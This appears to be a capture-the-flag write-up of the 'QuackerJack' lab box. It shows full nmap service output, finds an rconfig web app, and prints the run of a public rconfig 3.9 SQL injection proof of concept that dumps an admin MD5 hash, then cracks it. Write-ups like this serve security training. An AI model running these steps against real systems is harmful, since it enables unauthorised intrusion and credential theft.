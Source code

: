 ## First Enumerating with nmap

```shell
# Nmap 7.94SVN scan initiated Fri Mar  8 15:34:35 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 21,22,80,111,139,445,3306,8081 -Pn 192.168.185.57
Nmap scan report for 192.168.185.57
Host is up (0.20s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.205
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:ec:75:8d:86:9b:a3:0b:d3:b6:2f:64:04:f9:fd:25 (RSA)
|   256 b6:d2:fd:bb:08:9a:35:02:7b:33:e3:72:5d:dc:64:82 (ECDSA)
|_  256 08:95:d6:60:52:17:3d:03:e4:7d:90:fd:b2:ed:44:86 (ED25519)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Apache HTTP Server Test Page powered by CentOS
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
8081/tcp open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: 400 Bad Request
Service Info: Host: QUACKERJACK; OS: Unix

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-03-08T14:35:41
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h40m52s, deviation: 2h53m15s, median: 50s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: quackerjack
|   NetBIOS computer name: QUACKERJACK\x00
|   Domain name: \x00
|   FQDN: quackerjack
|_  System time: 2024-03-08T09:35:43-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  8 15:35:30 2024 -- 1 IP address (1 host up) scanned in 54.94 seconds

```


## Enumerating web

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0533edb6-ef6b-422d-ac5f-7c6b52afcf36)

a web server running on port `8081`, opening it on a browser, we got redirected to a login page. And we can see the web app is running `rconfig` service.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cf554c2d-771c-42ce-bb0e-e297665eeafc)

did some research and found out exploits for the `rconfig` service. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/QuakerJack]
└─$ python sqli.py https://192.168.185.57:8081
rconfig 3.9 - SQL Injection PoC
[+] Triggering the payloads on https://192.168.185.57:8081/commands.inc.php
[+] Extracting the current DB name :
rconfig
[+] Extracting 10 first users :
admin:1:dc40b85276a1f4d7cb35f154236aa1b2
Maybe no more information ?
Maybe no more information ?
Maybe no more information ?
Maybe no more information ?
[+] Extracting 10 first devices :
Maybe no more information ?
Maybe no more information ?
[*Snip*]
Maybe no more information ?
Done
```
ran the sqli exploit, we are able to extract the admin password md5 hash 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/50ffafc2-ba47-4eec-a994-0d9085378ec5)

cracked the password hash `abgrtyu`. 


